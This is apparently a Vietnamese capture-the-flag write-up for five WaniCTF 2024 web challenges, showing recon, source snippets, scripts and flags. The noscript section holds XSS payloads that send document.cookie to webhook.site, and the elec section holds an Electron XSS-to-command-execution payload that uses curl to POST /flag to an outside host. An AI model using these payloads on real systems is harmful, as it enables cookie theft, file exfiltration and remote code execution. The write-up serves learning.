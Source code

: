 # bad Worker 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/add5185f-b779-40bb-bf2b-c31688fda772)

- bài này ta có 2 cách để làm:

=> check chức năng của web trong đó có chức năng fetch data thì ta nhận được flag 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/3f742858-570c-44fa-a1ff-397fd8a9ed68)

=> ta có thể check qua source ctrl u thì ta thấy chức năng 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/e84cd268-2900-4027-8d07-00e28b1daf1a)

```
<script>navigator.serviceWorker.register('service-worker.js');</script>
```

check qua path thì ta thấy được 2 file FLAG.txt và dummy.txt thì chạy path FLAG.txt thi ta được

=> flag=FLAG{pr0gr3ssiv3_w3b_4pp_1s_us3fu1} 


# POW

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/4bde3b28-becb-4b08-aa6b-a5799faa4852)

- Recon:

  + ta có thông tin về client status và server status có vẻ client_status đang check số hợp lệ từ đó server sẽ tăng lên 1 ứng với mỗi giá trị hợp lệ
 
  + checking thì ta có thêm thông tin về json của server /api/pow đang ở progress là 0/1000000 vì client chưa tìm được giá trị hợp hợp lệ
 
  + theo đề bài là ta cần tìm giá trị hợp lệ qua cách tính crypto hash nhưng ta sẽ tìm qua hành vi của trang web
 
- Exploit:

   + 2 cách để exploit có thể là dùng python hoặc brupsuite
 

+ brupsuite:

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/57127ec9-1292-4f18-a249-20083b0fcb0c)

- ta lấy được giá trị hợp lệ là 2862152 và ta sẽ cho vào array json với giá trị tăng dần đến 1000000

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/2bc92f96-f7d8-4be9-b9be-9de895e4e4e6)

+ dùng python chạy loop tới 

payload:

```
import requests

# URL của API
url = 'https://web-pow-lz56g6.wanictf.org/api/pow'

# Tạo payload với 5000 phần tử '2862152'
payload = ['2862152'] * 20000

# Cookies
cookies = {
    'pow_session': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiIzMzU0ODI1Ny0zYzc2LTQ5MjYtYjc0Yy0yM2NkZWU5YjVhYTkifQ.vOmdV80weNiFDGcKSSg1fZwB1LDboRwlaIJnEN8uFJI'
}

# Lặp 20 lần để gửi yêu cầu POST
for _ in range(20):
    # Gửi yêu cầu POST và lấy phản hồi
    response = requests.post(url, json=payload, cookies=cookies)

    # In ra nội dung phản hồi
    print(f"Response {_ + 1}: {response.text}")

```

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/fab6de27-ca71-4455-9e14-f61ba1393899)

=> ta sẽ send response đến server với giá trị hợp lệ và kết nối tăng trong array 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/7d4746e1-475f-4223-aee3-7fc394bdefc1)

=> flag = FLAG{N0nCE_reusE_i$_FUn}

# noscript 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/16c38fae-7221-4b9f-9e99-63ff9a0a619e)

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/fa3ab07f-fea7-4d24-ad83-8c8407bac70e)

- Recon:

  + khi ta check chức năng sign in thì có 1 thông tin về xss banner
 
  + check qua payload <script> tag có vẻ nó không hiện thông tin về script tag
 
=> check code 

```
	r.GET("/user/:id", func(c *gin.Context) {
		c.Header("Content-Security-Policy", "default-src 'self', script-src 'none'")
		id := c.Param("id")
		re := regexp.MustCompile("^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[8|9|aA|bB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$")
		if re.MatchString(id) {
			if val, ok := db.Get(id); ok {
				params := map[string]interface{}{
					"id":       id,
					"username": val[0],
					"profile":  template.HTML(val[1]),  // vulnerable to XSS
				}
				c.HTML(http.StatusOK, "user.html", params)
			} else {
				_, _ = c.Writer.WriteString("<p>user not found <a href='/'>Home</a></p>")
			}
		} else {
			_, _ = c.Writer.WriteString("<p>invalid id <a href='/'>Home</a></p>")
		}
	})

```
+ "profile":  template.HTML(val[1]) : đang chứa lỗ hổng xss vì template chưa được lọc dữ liệu


=> chức năng này ta thấy csp đang chặn script thực thi nên ta sẽ sử dụng meta tag để chuyển hướng sang 1 trang khác 

```
// Get username API
	r.GET("/username/:id", func(c *gin.Context) {
		id := c.Param("id")
		re := regexp.MustCompile("^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[8|9|aA|bB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$")
		if re.MatchString(id) {
			if val, ok := db.Get(id); ok {
				_, _ = c.Writer.WriteString(val[0])
			} else {
				_, _ = c.Writer.WriteString("<p>user not found <a href='/'>Home</a></p>")
			}
		} else {
			_, _ = c.Writer.WriteString("<p>invalid id <a href='/'>Home</a></p>")
		}
	})
```

=> chức năng username/id api fetch data ở đây 


=> profile là để thực thi script để di chuyển đến main injection là username api để fetch cookie  




payload 


```

username=<a+autofocus='true'+tabindex=1+id=x+onfocus=fetch('https://webhook.site/d87e3a45-c3e2-4738-a9e3-bec99d4a9d78',{method:'POST',mode:'no-cors',body:document.cookie})>#x</a>&profile=<meta+http-equiv="refresh"+content="0;url=http://app:8080/username/id">


username=<a+autofocus%3d'true'+tabindex%3d1+id%3dx+onfocus%3dfetch('https://webhook.site/d87e3a45-c3e2-4738-a9e3-bec99d4a9d78',{method%3a'POST',mode%3a'no-cors',body%3adocument.cookie
})>%23x</a>&profile=<meta+http-equiv%3d"refresh"+content%3d"0%3burl%3dhttp%3a//app%3a8080/username/id">

id => user/id
```

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/af3ccf3f-4f68-4de9-aa24-ebb08335aa5a)

=> payload ngắn hơn sau giải được của wup khác

```
username= <script>fetch('https://webhook.site/046672e1-f5b7-42bd-af56-84b73caf22d6/', { method : 'post', body: document.cookie });</script>

username=<script>fetch(`(webhook)?cookie=${document.cookie}`)</script>

profile=<meta+http-equiv="refresh"+content="0;url=http://app:8080/username/id">
```

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/31766a05-7e4e-426c-b136-143b17b84e43)

=> flag:FLAG{n0scr1p4_c4n_be_d4nger0us}

# One Day One Letter

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/55f1b113-5928-4a30-a859-a0c151508154)

- Recon:

sau khi xem qua hành vi của 2 server time-server và content-server ta thấy rằng time-server 


=> cơ chế của time server là đang tạo ra key và verify timestamp qua public key để tạo ra signature của timestamp đó rồi send đến content server 

```
key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/pubkey':
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = pubkey
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        else:
            timestamp = str(int(time.time())).encode('utf-8')
            h = SHA256.new(timestamp)
            signer = DSS.new(key, 'fips-186-3')
            signature = signer.sign(h)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/json; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = json.dumps({'timestamp' : timestamp.decode('utf-8'), 'signature': signature.hex()})
            self.wfile.write(res_body.encode('utf-8'))

```

+ ta có thể thông qua time server để tạo 1 pubkey hợp lệ rồi cấu hình time stamp cho server của minh gửi đến content server


+ sử dụng expose time server dùng pagekite và server đấy có chứa pubkey mà mình tạo ra lấy thông tin của domain làm timeserver or ngrok

```
python3 pagekite.py (filekey) domain
```

có thể dùng ngrok expose server riêng

```
ngrok http (filekey)
```

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/3380a8d8-536a-49a9-9c41-05497fd2f189)

payload 

```
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS


key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


print(key)
print(pubkey)

while (True):
    timestamp = str(int(input("Input your time stamp: "))).encode('utf-8')
    h = SHA256.new(timestamp)
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    print(signature.hex())
```

=> payload để tạo ra signature ứng với từng timestamp mình input rồi public timeserver có chứa pubkey 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/b0d6f66f-7781-49f8-b8a1-5a756de1dadc)

=> flag: FLAG{lyingthetime}


# elec 

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/fe1379ba-ef88-4308-944f-8d06e8a0998d)

- Recon:

  => sau khi check bằng simple payload ta được

  ```
  <img src = x onerror = alert("hello")>
  ```

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/e18573f5-b19a-48b8-8f89-65cfc931992d)


=> nó đã hiện thông báo 
payload: 

=> xss command injection :

```
< img src = x onerror=" const orgCall = console . log ; console . log = function ( ... args ){ if ( 'pid' in args [ 0 ]){( new args [ 0 ] . constructor ()) . spawn ({ args : [ 'curl' , 'https://[yours].requestcatcher.com/get' , '-X' , 'POST' , '-d' , '@/flag' ] , cwd : undefined , detached : false , envPairs : [] , file : 'curl' , windowsHide : false , windowsVerbatimArguments : false }) ; } return orgCall . apply ( this, args ) ; }" >      
```

![image](https://github.com/neo-M3tinez/wanictf2024/assets/174318737/19a81d5c-49fc-480d-8cd7-6c894ef9bbf5)

=>flag = FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
